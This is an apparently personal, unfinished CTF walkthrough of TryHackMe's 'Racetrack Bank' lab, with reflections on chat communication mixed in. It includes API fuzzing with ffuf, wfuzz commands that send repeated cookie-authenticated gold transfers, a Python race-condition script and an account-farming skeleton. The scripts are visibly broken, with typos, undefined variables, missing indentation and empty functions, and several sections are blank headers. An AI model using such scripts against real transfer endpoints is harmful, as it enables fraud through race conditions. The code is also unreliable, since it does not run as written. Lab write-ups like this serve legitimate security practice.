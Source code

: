 # Racetrack-Bank Helped-Through

Name: Racetrack-Bank
Date:  23/01/2023
Difficulty:  Hard
Goals:  
- Learn about how custom exploits creating
- Practice social interaction over chats online - Promote "**stop!** listen - and ask good questions"  - ask 5 questions one per section of the box 
- Practice social interaction over text chat - research tips from actually white papers, experts in SE
Learnt:
Beyond Root:
- Being a better digital communicator; use all you have research to script out in a one-take improv of a chat discourse were you are try to explain this machine in two sentences maximum per interaction the box, self moderating tone and content.

Digital communication via Chats and DMs is not a strength of mine. I am people person with good SE, where most of the modern world post covid spent their days on Zoom and Discord, I was on the front lines talking to people. I know I have some catching up to do in that respect. These channels of communication will not go away. [Cthulhu Cthursday: TryHackMe's "RacetrackBank"](https://www.youtube.com/watch?v=mF2HJq4kaVE) will be a practice and further research os Online Social Skill 101 ++;  I made an arse of myself twice - being incorrect in the hope of helping, decided not pollute the evening or anyone elses and consider how to actually communicate over chat. My conclusions being that it is just of context - set and setting issue tied to wanting to be social in with other that like this stuff while I never have used chat on phones or discord, twitch, twitter, facebook. Email is just glorifed letters that make people waste their time deleting them. Decided I did not want this inital failure to be damaging as it copuld have been during turning almost user on [[Support-Helped-Through]] will is imperative practice being chat without being in chat and research how to connect my provably excellent social skills in-person to online.  

#### Question 1 

Without giving away of your TTPs for KOTH, but what was the most interesting KOTH TTPs that wrinkled your brain really hard during a KOTH or varients?  
-> Reduce and more open:
- Most interesting KOTH stories and TTPs witnessed or heard of?

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)



The Root Web Page on port 80.
![1080](rootwebpage.png)

API to fuzz
![](apidirectory.png)

```bash
ffuf -u http://10.10.53.115/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/api/api-seen-in-wild.txt:FUZZ
```

![1080](bigadminaccountcreation.png)

Account tiering is present
![1080](weneedoneofthese.png)
For some reason chat really likes ZAP and Al really does not like ZAP. 

Jason Haddix uses ZAP in the most recent Web Hacking methodology for Bug Hunting  
![1080](nogiveselfgold.png)

Either we make lot of accounts to make one pool of Gold
![1080](apiendpointdisclosed.png)
Vulnerabiliies mentioned by chat
1. Give Self 
2. Integer Overflow
3. Create 10k accounts and give accounts.
4. Race conditions 
	- An exploitable condition that race the backend server to completing this condition. 
		- Attempt to run two ffuf/wfuzz:
			- One of each account to pass gold from target before other account

1. 



```bash
for i in seq {0..9999}; do echo "1" >> 10kOnes.txt; done
```


Wfuzz and ffuf commands
```bash
BIGADMINCOOKIE=
LITTLEADMINCOOKIE=
PAYLOAD=10kOnes.txt
HOST="10.10.10.10"
# Wfuzz - bigadmin
wfuzz -H 'Cookie: connect.sid=$BIGADMINCOOKIE' -d 'user=$USER$&amount=1&addition=FUZZ' -u http://$HOST/api/givegold -X POST -w $PAYLOAD3 -t 5
# ffuf 
ffuf -u http://$HORT/api/givegold -X POST -b 'Cookie: connect.sid=$COOKIE' -d 'user=USER&amount=1&addition=FUZZ' -t 5
```


```python 
import multiprocessing as mp
import threading, os subprocess
from typing import Any, Awaitable

async def run_sequence(*functions: Awaitable[Any]) -> None:
for function in functions:
	await function



async def create_subproc(cmd, args):
process = subprocess.Popen(["{cmd}", "{args}"], stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
process.wait()

async def exec_racecond_exploit(host, api_endpoint, data_field_one, data_field_dst, cookie_src, cookie_dst, method, thread_amount):
with open(payload, "r") as f:
            words = f.read()
			for i,word in enumerate(words):
src_args = f"http://{host}/{api_endpoint} -d \'{data_field_src}&payload={word}\' -b \'Cookie: {cookie_src}\' -X {method}"
dst_args = f"http://{host}/{api_endpoint} -d \'{data_field_dst}&payload={word}\' -b \'Cookie: {cookie_dst}\' -X {method}"
	await run_sequence(
		create_subproc("curl", src_args),
		create_subproc("curl", dst_args),
					  )


def main():


# Cookie provide all but "Cookie: " 
BIGADMINCOOKIE = ""
LITTLEADMINCOOKIE = ""
# filepath to payload to fuzz through this only matters for amount of words in the wordlist that is called payload for the field in the data curl sends 
PAYLOAD = "10kOnes.txt"
HOST = f"10.10.10.10"

exec_racecond_exploit()


os.exit()

```





##### Question 2 


## Exploit

##### Question 3 
## Foothold
##### Question 4

## PrivEsc
##### Question 5

## Beyond Root

##### Question 6
What mitigations and redemiation would you write in a report fix this exploit? 

## One Account to Rule them all!

```bash
for num in seq {0..9999}; do
echo "user$num" >> users.txt
done
```

```python 
import asyncio, threads, os, requests

def open_users():

def create_account():

def login_and_give_gold():

def main():
	password = "asd"
	target_account = "PoolOfGold"
	create_account(target_account)
	# password = open_passwords()
	users = open_users()
	# Enum or loop
	
		create_account(name)
		login_and_give_gold(target_account)
		
	
```